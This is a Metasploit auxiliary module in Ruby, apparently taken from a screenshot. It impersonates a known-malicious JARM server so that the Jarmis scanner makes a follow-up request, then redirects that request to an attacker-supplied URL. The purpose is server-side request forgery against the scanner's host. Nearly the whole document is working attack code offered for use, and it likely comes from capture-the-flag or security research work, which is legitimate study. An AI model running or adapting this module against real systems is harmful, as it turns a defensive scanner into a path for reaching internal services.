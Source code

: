 ```rb
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Auxiliary
  include Msf::Exploit::Remote::HttpServer::HTML
  include Msf::Auxiliary::Report

  def initialize(info={})
    super(update_info(info,
      'Name'        => 'Redirect Jarmis Scanner to something else',
      'Description'    => %q{
        The Jarmis Scanner will try to collect content from a server it detects as a known
        malicious JARM. MSF is that, and therefore this module will redirect that last request
        to some other url for SSRF.
      },
      'Author'      => ['0xdf'],
      'License'     => MSF_LICENSE,
      'Actions'     =>
        [
          [ 'Redirect', 'Description' => 'Run redirect web server' ]
        ],
      'PassiveActions' =>
        [
          'Redirect'
        ],
      'DefaultAction'  => 'Redirect'
    ))

    register_options(
      [
        OptPort.new('SRVPORT', [ true, "The local port to listen on.", 443 ]),
        OptString.new('RedirectURL', [ true, "The page to redirect users to" ]),
        OptBool.new('SSL', [ true, "Negotiate SSL for incoming connections", true])
      ])
  end

  # Not compatible today
  def support_ipv6?
    false
  end

  def run
    @myhost   = datastore['SRVHOST']
    @myport   = datastore['SRVPORT']

    exploit
  end

  def on_request_uri(cli, req)
    if datastore['RedirectURL']
      print_status("Redirecting client #{cli.peerhost} to #{datastore['RedirectURL']}")
      send_redirect(cli, datastore['RedirectURL'])
    else
      send_not_found(cli)
    end
  end
end
```
